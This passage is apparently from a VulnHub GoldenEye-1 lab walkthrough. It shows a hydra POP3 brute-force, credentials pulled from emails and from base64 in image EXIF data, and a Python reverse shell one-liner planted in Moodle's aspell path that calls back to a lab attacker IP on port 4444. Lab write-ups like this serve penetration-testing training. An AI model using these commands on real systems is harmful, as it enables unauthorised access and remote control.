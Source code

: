 ## Back to TCP/55007 - POP3
1. Bruteforce POP3 again
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/smtp]
	└─# hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$ip:55007 -e nsr -t 10 -I
	
	[55007][pop3] host: 192.168.236.12   login: doak   password: goat
	```
	- doak:goat
2. View doak's emails
	- `doak@ubuntu`
	![](images/Pasted%20image%2020220128041618.png)
	- dr_doak:4England!

## Back to TCP/80 - Obtain More Creds + Moodle CMS Exploit (RCE) 
1. Login w/ dr_doak:4England! & proceed to private files
	![](images/Pasted%20image%2020220128042228.png)
2. View `s3cret.txt`
	![](images/Pasted%20image%2020220128042353.png)
	- /dir007key/for-007.jpg
3. Download  `/dir007key/for-007.jpg` 
4. Detect any hidden files/text
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/loot/http]
	└─# exiftool for-007.jpg | grep Description
	Image Description               : eFdpbnRlcjE5OTV4IQ==
	```
5. Decode text
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/loot/http]
	└─# echo -n eFdpbnRlcjE5OTV4IQ== | base64 -d
	xWinter1995x!
	```
	- admin:xWinter1995x!
6. Login w/ admin:xWinter1995x!
	- No Private Files
	- No Messages
7. View moodle version
	![](images/Pasted%20image%2020220128043224.png)
	- `moodle 2.2.3`
8. Insert reverse shell
	1. Proceed to `Site Administration -> Server -> System Paths`
	2. Edit Path to aspell
		```
		python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.236.4",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
		```
		- Only python reverse shell worked
		